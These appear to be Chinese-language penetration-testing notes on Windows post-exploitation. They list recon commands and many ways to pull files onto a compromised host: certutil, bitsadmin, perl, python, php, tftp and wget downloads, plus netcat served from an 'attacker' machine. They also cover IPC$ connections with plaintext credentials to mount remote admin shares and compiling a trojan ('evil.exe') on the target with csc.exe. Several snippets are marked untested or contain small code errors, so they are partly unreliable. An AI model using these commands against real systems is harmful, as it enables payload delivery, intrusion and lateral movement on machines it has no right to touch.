

js和certutil,bitsadmin,vbs


识别英文操作系统名称及版本   

	systeminfo | findstr /B /C:"OS Name" /C:"OS Version"

别中文操作系统名称及版本     ```systeminfo | findstr /B /C:"OS 名称" /C:"OS 版本"``` 

                           
    OS 名称:          Microsoft Windows 10 旗舰版
    OS 版本:          10.0.14393 N/A Build 14393
    

识别系统体系结构            ```echo %PROCESSOR_ARCHITECTURE% ```

  	AMD64
                           
查看某特定用户信息          ```net user XXX```

查看路由表信息route print

查看ARP缓存信息 arp -A 

查看防火墙规则：

	netstat -ano
	netsh firewall show config
	netsh firewall show state

具体参考[Windows内网渗透提权的几个实用命令](https://www.freebuf.com/articles/system/114731.html)

 

downloader常用方法如下：

	certUtil
	powershell
	csc
	vbs
	JScript
	hta
	bitsadmin
	wget
	debug
	ftp
	ftfp

### perl 下载文件

	perl -MLWP::Simple -e "getstore ('http://www.163.com/','163.html')"

win7测试下载https会报错，提醒我丢失libeay_32.dll，libeay32.dll是OpenSSL所用动态链接库

测试失败 ```perl -MLWP::Simple -e "getstore ('https://raw.githubusercontent.com/3gstudent/test/master/version.txt','163.txt')"```

```perl -e "print 'Hello World \n'"```  

### python 下载文件

	python -c "import urllib2;u=urllib2.urlopen('https://raw.githubusercontent.com/3gstudent/test/master/version.txt');localfile=open('a.txt','w');localfile.write(u.read());localfile.close();"


### ruby 下载

httpdownload.rb 可用ruby 下载 http链接的文件，https暂不知道下载方法  
	
	$ruby httpdownload.rb ```

### php 下载

	<?php
	$data = @file("http://txt.bookdown.net/home/down/txt/id/625");
	#print_r(gettype($data);
	$f = fopen("1.txt", "w");
	fwrite($f, ''.join($data));  # array -> str
	fclose($f);
	?>

### tftp 下载

windows7 下默认是没有tftp的，可以WIN+R，然后输入appwiz.cpl，点击左侧的打开或关闭windows功能后，选中TFTP客户端即可启用TFTP客户端。

(未测试)

```tftp -i host(本地ip,可以是127.0.0.1) GET 1.py(用于保存在本地的文件名) 远程ip\1.py(远程tftp服务器上的文件)```

### wget 下载

	wget http://192.168.43.68:8000/1.py  

cmd默认未安装

### nc

netcat 文件下载(未测试)

攻击者在linux下输入命令

cat file|nc -l 1234
这样把文件file的内容重定向到了攻击者的1234端口，无论谁访问攻击者的ip的这个端口，都能下载到文件了

nc host_ip 1234 > file

## net use

建立IPC$连接

IPC$是Windows系统特有的一项管理功能，是微软公司为了方便用户使用计算机而设计的，主要用来远程管理计算机的。

```net use \\192.168.1.41\ipc$ 123123 /user:Lee```
 
通过建立IPC$连接与远程主机实现通信和控制

下面的操作需要管理员权限，只有管理员能够对他们进行远程操作

```net use x: \\192.168.1.41\e$```

打开“我的电脑”，会发现多出一个x盘，上面写着“C$位于192.168.1.41上”，该磁盘即为目标主机的e盘

net use * /del  断开所有IPC$连接

[IPC连接](https://blog.csdn.net/flyingleo1981/article/details/18763229)

## Notepad 文件下载

这个姿势很神奇。

首先打开notepad，就是我们常说的记事本，点击文件-》打开，在文件名称内输入完整的URL，回车，就会发现记事本中的内容就是我们访问的URL的文本内容。



## powershell nishang 文件下载

## csc.exe工具直接编写exe

这里我们可以用ExeToText脚本，将想要下载的exe文件转换成txt，在用记事本打开，然后复制其中的内容，通过rdp剪贴板复制到目标机器上的txt文本，再通过TextToExe脚本转换为exe就好了。

在Windows下，c的编译器默认是在C:\Windows\Microsoft.NET\framework\

version的话，不同位数的机器不一样，看情况而定

进入不同版本version文件夹，

C#命令行编辑器csc.exe  将木马的源码写好，直接在目标及其上编译就好了

csc.exe /out:c:\users\pino\evil.exe c:\users\pino\evil.c   (未测试)


## 参考资料

https://www.jianshu.com/p/502441bcebe0   15种下载

